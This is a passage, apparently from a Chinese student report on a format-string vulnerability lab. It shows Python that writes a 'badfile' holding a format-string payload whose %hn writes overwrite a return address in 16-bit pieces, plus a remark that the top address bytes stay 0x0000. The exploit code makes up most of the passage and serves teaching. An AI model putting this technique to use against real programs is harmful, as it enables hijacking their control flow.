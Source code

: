 ```python

# target_addr for test
target_addr = 0x0000555555558010
number  = ret_addr
number1 = number + 2
number2 = number + 4
number3 = number + 6


# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"

s = "%46$.32767lx" + "%46$hn" + "%44$.27384lx" + "%44$hn" + "%45$.5384lx" + "%45$hn"

# s = "%44$lx."

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
offset = 80
content[0:len(fmt)] = fmt
content[offset:offset+8] = (number).to_bytes(8, byteorder='little')
content[offset+8:offset+16] = (number1).to_bytes(8, byteorder='little')
content[offset+16:offset+24] = (number2).to_bytes(8, byteorder='little')
# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

其中需要注意高位地址恒为`0x0000`不需要修改，其他三个都需要进行修改。

![image-20231211193743193](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211193743193.png)
